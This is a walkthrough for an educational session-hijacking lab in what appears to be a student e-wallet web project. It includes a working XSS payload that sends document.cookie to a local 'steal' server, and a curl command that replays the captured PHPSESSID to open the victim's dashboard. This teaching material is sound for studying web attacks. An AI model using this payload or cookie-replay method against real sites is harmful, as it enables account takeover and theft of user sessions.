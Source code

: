 # Session Hijacking Demo Lab

> **Warning:** This demo is for educational purposes only. Do not use these techniques on systems you do not own or have explicit permission to test.

---

## Step 1: Steal the Session Cookie (via XSS)

**Instructions:**

1. Start the data-stealing server:
   - Open a terminal and run:
     ```
     node SecurePay_E-Wallet_&_Cybersecurity_Demo_Lab/cyberlab/for_stole_data/server.js
     ```
2. In your browser, go to the XSS demo page:  
   `cyberlab/xss_demo.php`
3. Paste the following payload into the "Post a Comment" box and submit:

**Scenario:**  
An attacker injects a malicious script that silently sends the victim's session cookie to a server controlled by the attacker. This is a classic XSS attack used to hijack user sessions.

**Payload:**

```html
<script>
  const img = document.createElement("img");
  img.src = "http://localhost:3000/steal?session=" + document.cookie;
  document.body.appendChild(img);
</script>
```

**Explanation:**  
The script creates an image element with its `src` set to a URL containing the user's cookies. When the browser loads the image, it sends a request to the attacker's server with the session cookie in the URL. The attacker can then capture the cookie and use it to impersonate the victim.

---

## Step 2: Simulate Session Hijacking with curl

**Instructions:**

1. Copy the session ID (PHPSESSID) you received on your data-stealing server.
2. Open Command Prompt and run:
   ```sh
   curl -H "Cookie: PHPSESSID=YOUR_SESSION_ID" "http://localhost/Web_Tech_Project/SecurePay_E-Wallet_&_Cybersecurity_Demo_Lab/dashboard/index.php"
   ```
   - Replace `YOUR_SESSION_ID` with the actual session ID you captured.
3. If you see dashboard content, the session hijack was successful.

---

## Step 3: Verify in Browser (Automated via PHP)

**Instructions:**

1. Open your browser and go to:
   ```
   http://localhost/Web_Tech_Project/SecurePay_E-Wallet_&_Cybersecurity_Demo_Lab/cyberlab/for_stole_data/session_hijacking.php
   ```
2. This page (`session_hijacking.php`) performs the same session hijacking request as the curl command, but from the server side using PHP's cURL functions. It sends a request to the dashboard with the specified session ID and displays the result in your browser. This helps you visualize how an attacker could automate session hijacking using server-side scripts.

---

**Tips & Notes:**

- Ensure your local server is running.
- Use a valid session ID for the demonstration.
- For best results, use a private/incognito window for the victim and attacker sessions.
- Always clean up test accounts and sessions after your demo.
